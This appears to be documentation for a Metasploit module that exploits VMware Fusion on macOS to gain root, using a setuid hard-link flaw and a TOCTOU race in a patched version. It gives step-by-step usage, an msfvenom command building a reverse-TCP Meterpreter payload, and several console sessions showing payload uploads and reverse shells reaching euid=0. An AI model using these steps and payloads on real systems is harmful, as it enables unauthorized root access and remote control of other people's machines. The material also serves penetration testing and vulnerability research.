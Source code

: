 ## Vulnerable Application

This exploits an improper use of setuid binaries within VMware Fusion 10.1.3 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMware USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

It was found that VMware Fusion 11.5.3, which patched the previous vulnerability utilized an incomplete patch.  The patch checked
for a correct code signature on the `VMware USB Arbitrator Service` at start, but not at launch, thus creating a TOCTOU race
condition.  The discoverer @jeffball55 demoed the exploit working in ~30 attempts.  This module has been successful between
5 and 25 attempts.

VMware Fusion 11.5.1 is available from [VMware](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### MAXATTEMPTS

The maximum attempts to start `VMware USB Arbitrator Service`, attempting to win the race against 11.5.3.  Default is `75`.

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 10.1.6

```
msf5 exploit(osx/local/vmware_fusion_lpe) > run

[!] SESSION may not be compatible with this module.
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started reverse TCP handler on 127.0.0.1:4444
[+] Vmware Fusion 10.1.6 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/wvu/Contents/Library/services/VMware USB Arbitrator Service
[*] Max line length is 131073
[*] Writing 804084 bytes in 25 chunks of 111592 bytes (octal-encoded), using printf
[*] Next chunk is 117552 bytes
[*] Next chunk is 116480 bytes
[*] Next chunk is 114764 bytes
[*] Next chunk is 113263 bytes
[*] Next chunk is 111420 bytes
[*] Next chunk is 112649 bytes
[*] Next chunk is 115231 bytes
[*] Next chunk is 113278 bytes
[*] Next chunk is 114696 bytes
[*] Next chunk is 114109 bytes
[*] Next chunk is 118500 bytes
[*] Next chunk is 119288 bytes
[*] Next chunk is 116736 bytes
[*] Next chunk is 114000 bytes
[*] Next chunk is 114444 bytes
[*] Next chunk is 114460 bytes
[*] Next chunk is 116528 bytes
[*] Next chunk is 112788 bytes
[*] Next chunk is 84713 bytes
[*] Next chunk is 106180 bytes
[*] Next chunk is 89744 bytes
[*] Next chunk is 87533 bytes
[*] Next chunk is 127271 bytes
[*] Next chunk is 71468 bytes
[*] Created folder (/Users/wvu/Bvr/k8h88/GAymi/) and link
[*] Starting USB Service (5 sec pause)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:63876) at 2020-04-02 11:00:59 -0500
[+] Deleted /Users/wvu/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/wvu/Bvr

meterpreter > getuid
Server username: wvu @ [redacted] (uid=[redacted], gid=[redacted], euid=0, egid=[redacted])
meterpreter >
```

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[+] Vmware Fusion 11.5.1 is exploitable
[*] The target appears to be vulnerable.
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.1 is exploitable
[*] Using pre-11.5.3 exploit
[*] Uploading Payload: /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```

### VMWare Fusion 11.5.3 on macOS 10.15.3

```
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49198) at 2020-03-28 07:37:16 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.ragedomain
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444
[+] Vmware Fusion 11.5.3 is exploitable
[*] Using 11.5.3 exploit
[*] Uploading Payload to /Users/h00die/Contents/Library/services/SAGgama
[*] Uploading race condition executable.
[*] Writing '/Users/h00die/Contents/Library/services/TVOK7bDP' (342 bytes) ...
[*] Creating folder (/Users/h00die/weGd/JvR/VoYDt/) and link
[*] Writing '/Users/h00die/Contents/Library/services/alYnwGRyo' (178 bytes) ...
[*] Launching Exploit /Users/h00die/Contents/Library/services/alYnwGRyo
[*] attempt 1
[*] Exploit Finished, killing
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49213) at 2020-03-28 07:37:28 -0400
[-] Unable to delete /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[+] Deleted /Users/h00die/Contents/Library/services/TVOK7bDP
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_fs_delete_dir: Operation failed: Python exception: OSError
[*] Exploit completed, but no session was created.
msf5 exploit(osx/local/vmware_fusion_lpe) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: h00die @ h00dies-MBP.ragedomain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.ragedomain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx
meterpreter >
```
